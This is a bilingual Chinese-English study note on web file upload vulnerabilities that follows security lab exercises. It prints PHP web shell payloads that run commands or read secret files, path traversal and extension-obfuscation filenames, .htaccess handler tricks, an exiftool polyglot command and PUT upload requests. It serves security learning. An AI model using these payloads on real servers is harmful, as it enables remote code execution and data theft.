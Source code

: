 ## File upload vulnerabilities
- Web Shell  / reverse Shell
- 伺服器配置允許某些類型的文件（例如.php和.jsp)
- 最糟糕的情況是網站允許你上傳伺服器端腳本（例如 PHP、Java 或 Python 檔案）<br>

## PHP 
- "<"?php echo file_get_contents('/path/to/target/file'); ?">"
- "<"?php echo system($_GET['command']); ?">"
- GET /example/exploit.php?command=id HTTP/1.1

**Lab: Remote code execution via web shell upload**
-  圖片上傳功能
- 不會對其進行任何驗證 
- upload exploit.php (<"?php echo file_get_contents('/home/carlos/secret'); ?">)
- GET /files/avatars/exploit.php HTTP/1.1 <br>

## 防禦措施
- 檢查此輸入特定的Content-Type標頭是否與預期的 MIME 類型相符
- Request header:
    - Content-Type:application/x-www-form-url-encoded
    - Content-Type: multipart/form-data
- Content-Type標頭，用於告知伺服器使用此輸入框提交的資料的 MIME 類型
- Content-Disposition標頭，用於提供與其相關的輸入欄位的一些基本資訊
- e.g if 伺服器只接受圖像文件，則可能只允許諸如image/jpeg和 之類的類型image/png
  
**Lab: Web shell upload via Content-Type restriction bypass**
- change Content-Type : image/jpeg

**Lab: Web shell upload via path traversal**
- Content-Disposition: form-data; name="avatar"; filename="../exploit.php"
- filename="..%2fexploit.php"
- GET /files/exploit.php

## 黑名單
- 鮮為人知的替代檔案副檔名 e.g .php5 .shtml
- /etc/apache2/apache2.conf
    - LoadModule php_module /usr/lib/apache2/modules/libphp.so <br>
        AddType application/x-httpd-php .php
- Apache 伺服器 : (.htaccess)
- IIS 伺服器 : (web.config)
    - <"staticContent>
        <"mimeMap fileExtension=".json" mimeType="application/json" /"><br>
        </staticContent">

**Lab: Web shell upload via extension blacklist bypass**
- filename : .htaccess
- Content-Type : text/plain
- AddType application/x-httpd-php .l33t
- exploit.l33t 

## Obfuscating file extensions
- 多個擴充名 : exploit.php.jpg
- 新增尾隨字元 : exploit.php.
- 使用 URL 編碼 : exploit%2Ephp
- 加上分號 : exploit.asp;.jpg
- 加上URL 編碼的空位元組字元 : exploit.asp%00.jpg
- 使用多位元組 Unicode 字符 : xC0 x2E、xC4 xAE、xC0 xAE會轉換為x2E
- 剝離 : exploit.p.phphp

**Lab: Web shell upload via obfuscated file extension**
- filename="exploit.php%00.jpg"
- exploit.php

## Flawed validation
- 位元組序列
- JPEG 檔案始終以位元組 開頭FF D8 FF
- 使用 ExifTool 等特殊工具

**Lab: Remote code execution via polyglot web shell upload**
- exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php

## Other 
**Exploiting file upload race conditions**
- 先將檔案上傳到一個臨時的沙盒目錄，並隨機化檔案名稱以避免覆蓋現有檔案

**Exploiting file upload vulnerabilities without remote code execution**
- 上傳 HTML 檔案或 SVG 圖像
- <script>

**Exploiting vulnerabilities in the parsing of uploaded files**
- 嘗試利用特定於解析或處理不同檔案格式的漏洞
- .doc.xls.xml
-  XXE 注入攻擊的潛在載體
  
**使用 PUT 上傳文件**
- OPTIONS 向不同的端點發送請求，以測試是否有任何端點支援該PUT方法
- PUT /images/exploit.php HTTP/1.1
- Host: vulnerable-website.com
- Content-Type: application/x-httpd-php
- Content-Length: 49
- <"?php echo file_get_contents('/path/to/file'); ?">
